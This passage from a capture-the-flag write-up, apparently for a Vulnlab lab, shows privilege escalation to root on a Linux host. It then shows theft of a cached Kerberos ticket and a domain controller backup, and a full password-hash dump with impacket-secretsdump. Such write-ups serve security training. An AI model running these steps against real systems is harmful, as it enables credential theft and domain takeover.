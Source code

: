     Password:
    [*] Saving ticket in leivy.ccache
    ➜  kelndathu export KRB5CCNAME=leivy.ccache     
    ➜  kelndathu subl /etc/krb5.conf 
    ➜  kelndathu ssh -K leivy@klendathu.vl@srv2.klendathu.vl   

With easiest privesc we got another flag and done another HOST.

        (ALL : ALL) NOPASSWD: ALL
    [leivy@KLENDATHU.VL@srv2 ~]$ sudo su
    [root@srv2 leivy@KLENDATHU.VL]# cd /root
    [root@srv2 ~]# ls
    anaconda-ks.cfg  flag.txt  inc5543_domaincontroller_backup

Some folder was really interesting to me lets tar them and get my hosts

    [root@srv2 registry]# pwd
    /root/inc5543_domaincontroller_backup/registry
    [root@srv2 registry]# ls -la
    total 16704
    drwxr-xr-x. 2 root root       36 Apr 11 23:31 .
    drwxr-xr-x. 4 root root       62 Apr 11 23:54 ..
    -rw-r--r--. 1 root root    65536 Apr 11 23:31 SECURITY
    -rw-r--r--. 1 root root 17039360 Apr 11 23:31 SYSTEM

    [root@srv2 ~]# tar zcvf /tmp/inc5543_domaincontroller_backup.tar.gz inc5543_domaincontroller_backup
    inc5543_domaincontroller_backup/
    inc5543_domaincontroller_backup/Active Directory/
    inc5543_domaincontroller_backup/Active Directory/ntds.dit
    inc5543_domaincontroller_backup/Active Directory/ntds.jfm
    inc5543_domaincontroller_backup/registry/
    inc5543_domaincontroller_backup/registry/SECURITY
    inc5543_domaincontroller_backup/registry/SYSTEM
    inc5543_domaincontroller_backup/note.txt

But some file is most dangerous actually its over [here](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-active-directory) u can check everything.

    [root@srv2 tmp]# ls
    inc5543_domaincontroller_backup.tar.gz
    krb5cc_990001135

if u solved before Unintended from [Vulnlab](https://www.vulnlab.com/) it will be easy for u but let see what we can do.

i took them with base64 and save as ticket.ccache on my localy.

    base64 -w0 /tmp/krb5cc_990001135

and got tar file on my locally too. u can use scp or wget (basic things)

    ➜  inc5543_domaincontroller_backup impacket-secretsdump -system registry/SYSTEM -ntds Active\ Directory/ntds.dit local

we can basicly dump all hash with this but there is a note.txt for us.

    ➜  inc5543_domaincontroller_backup cat note.txt 
    Incident: INC5543
